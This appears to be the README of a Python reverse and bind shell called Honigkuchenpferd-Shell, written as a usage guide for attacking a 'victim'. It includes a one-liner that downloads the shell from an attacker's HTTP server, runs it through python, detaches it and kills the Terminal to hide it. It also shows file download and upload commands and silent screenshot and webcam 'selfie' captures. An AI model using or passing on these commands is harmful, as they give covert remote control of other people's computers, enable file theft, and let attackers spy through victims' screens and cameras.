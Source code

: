![Screenshot](picture/hacking-is-bad-mmmkay.jpg)

# Honigkuchenpferd-Shell

free to use but don't screw up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
/bin/python3 -m http.server 8080
```
```
/bin/python3 srv.py -l 6666

OR

/bin/python3 srv.py 127.0.0.1 6666
```
## Victim
```
curl -s http://<IP>:8080/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```


## download File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] download sus_text.txt
```
## upload File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] upload sus_prog.bin
```


## ffmpeg:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```


## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```

